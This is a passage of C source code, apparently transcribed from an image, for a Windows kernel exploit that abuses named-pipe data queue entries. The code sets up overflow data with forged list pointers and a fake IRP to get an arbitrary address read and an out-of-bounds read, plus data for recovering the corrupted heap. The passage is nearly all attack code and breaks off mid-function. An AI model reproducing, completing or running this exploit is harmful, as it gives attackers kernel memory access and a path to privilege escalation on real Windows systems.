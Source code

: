 ```
void WriteDataEntry(PIPE_HANDLES ph, PVOID WriteData, DWORD32 len) {
  WriteFile(ph.w,
    WriteData,
    ENTRY_DATASIZE(len),
    NULL,
    NULL);
}

void ReadDataEntry(PIPE_HANDLES ph, PVOID ReadBuffer, DWORD32 len) {
  ReadFile(ph.r,
    ReadBuffer,
    ENTRY_DATASIZE(len),
    NULL,
    NULL);
}

#define MARKER 0x9999999988888888
DWORD64 readthis = MARKER;
IRP fakeirp;
IRP * fakeirp_w;
BYTE fakeevent[0x80];
DWORD64 dummyvalue;

#define inputsize 0x1000 // >0x18, Allocation Size, Copy From +0x20
#define outputsize 0x1060 // Copy size-0x10, Should Copy by 0x40
LPBYTE inbuffer;
LPBYTE outbuffer;

DWORD64 flink = 0; // Used for Recovering
DWORD64 blink = 0; // Used for Recovering
DWORD64 thread_list[2];

DWORD overflowidx = 0;

void setupaar(LPBYTE buffer, DWORD64 readaddr = (DWORD64) & readthis, DWORD size = 0x8) {
  fakeirp.AssociatedIrp = (PVOID64) readaddr;
  // Setup Overflow Data
  *(DWORD64 * )(buffer + 0x0) = flink; // NextEntry->Flink
  *(DWORD64 * )(buffer + 0x8) = blink; // NextEntry->Blink
  *(DWORD64 * )(buffer + 0x10) = (DWORD64) & fakeirp; // IRP
  *(DWORD64 * )(buffer + 0x18) = (DWORD64) 0; // SecurityContext
  *(DWORD * )(buffer + 0x20) = (DWORD) 1; // Entry Type
  *(DWORD * )(buffer + 0x24) = (DWORD) 0; // QuotaEntry
  *(DWORD * )(buffer + 0x28) = (DWORD) size; // DataSize
  *(DWORD * )(buffer + 0x2C) = (DWORD) 0; // x
}

void setupoobread(LPBYTE buffer, DWORD size) {
  // Setup Overflow Data
  *(DWORD64 * )(buffer + 0x0) = flink; // NextEntry->Flink
  *(DWORD64 * )(buffer + 0x8) = blink; // NextEntry->Blink
  *(DWORD64 * )(buffer + 0x10) = (DWORD64) 0; // IRP
  *(DWORD64 * )(buffer + 0x18) = (DWORD64) 0; // SecurityContext
  *(DWORD * )(buffer + 0x20) = (DWORD) 0; // Entry Type
  *(DWORD * )(buffer + 0x24) = (DWORD) 0; // QuotaEntry
  *(DWORD * )(buffer + 0x28) = (DWORD) size; // DataSize
  *(DWORD * )(buffer + 0x2C) = (DWORD) 0; // x
}

void setuprecoverdata(LPBYTE buffer, DWORD size) {
  // Setup Overflow Data
  *(DWORD64 * )(buffer + 0x0) = flink; // NextEntry->Flink
  *(DWORD64 * )(buffer + 0x8) = blink; // NextEntry->Blink
```